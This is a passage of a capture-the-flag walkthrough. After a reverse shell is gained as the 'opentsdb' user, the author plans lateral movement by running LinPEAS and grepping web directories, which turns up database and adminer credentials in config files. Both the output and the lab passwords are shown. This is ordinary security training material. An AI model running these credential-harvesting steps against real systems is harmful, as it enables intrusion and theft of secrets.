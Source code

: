 This spawns a reverse shell as the `opentsdb` user!

## Lateral Movement

Looking at `jennifer`'s home directory with `ls -la /home/jennifer/` shows that it contains the `user.txt` flag. So, we need to gain access to the `jennifer` user.

Looking at `/etc/passwd`, `opentsdb` does not have a shell: `opentsdb:x:1000:1000::/usr/share/opentsdb:/bin/false`. So, we cannot easily gain persistance.

Uploading and running LinPEAS, we find various passwords:

```
╔══════════╣ Searching passwords in config PHP files
define('DATABASE_HOST', 'localhost');
define('DATABASE_NAME', 'cats_dev');
define('DATABASE_PASS', 'adm1r3r0fc4ts');
define('DATABASE_USER', 'cats');
define('DEMO_PASSWORD',  'john99');
define('FORGOT_PASSWORD_FROM_NAME', 'CATS');
define('FORGOT_PASSWORD_SUBJECT',   'CATS - Password Retrieval Request');
define ('LDAP_BIND_PASSWORD', 'password');
define('MAIL_SMTP_USER', "user");
define('TESTER_PASSWORD',  'john99');
define('TESTER_USER_ID',   4);
define('DATABASE_HOST', 'localhost');
define('DATABASE_NAME', 'cats');
define('DATABASE_PASS', 'yourpass');
define('DATABASE_USER', 'cats');
define('DEMO_PASSWORD',  'john99');
define('FORGOT_PASSWORD_FROM_NAME', 'OpenCATS');
define('FORGOT_PASSWORD_SUBJECT',   'OpenCATS - Password Retrieval Request');
define('MAIL_SMTP_USER', "user");
define('TESTER_PASSWORD',  'john99');
define('TESTER_USER_ID',   4);
define('DATABASE_HOST', 'opencatsdb');
define('DATABASE_NAME', 'cats_test');
define('DATABASE_PASS', 'dev');
define('DATABASE_USER', 'dev');
define('DEMO_PASSWORD',  'john99');
define('FORGOT_PASSWORD_FROM_NAME', 'CATS');
define('FORGOT_PASSWORD_SUBJECT',   'CATS - Password Retrieval Request');
define ('LDAP_BIND_PASSWORD', 'password');
define('MAIL_SMTP_USER', "user");
define('TESTER_PASSWORD',  'john99');
define('TESTER_USER_ID',   4);
```

Running `grep -r 'pass' /var/www/adminer/` (since that is one of the services that we exploited) displays some commented out credentials in `/var/www/adminer/plugins/data/servers.php`:

```
<?php
return [
  'localhost' => array(
//    'username' => 'admirer',
//    'pass'     => 'bQ3u7^AxzcB7qAsxE3',
// Read-only account for testing
    'username' => 'admirer_ro',
    'pass'     => '1w4nn4b3adm1r3d2!',
    'label'    => 'MySQL',
    'databases' => array(
      'admirer' => 'Admirer DB',
    )
  ),
];
```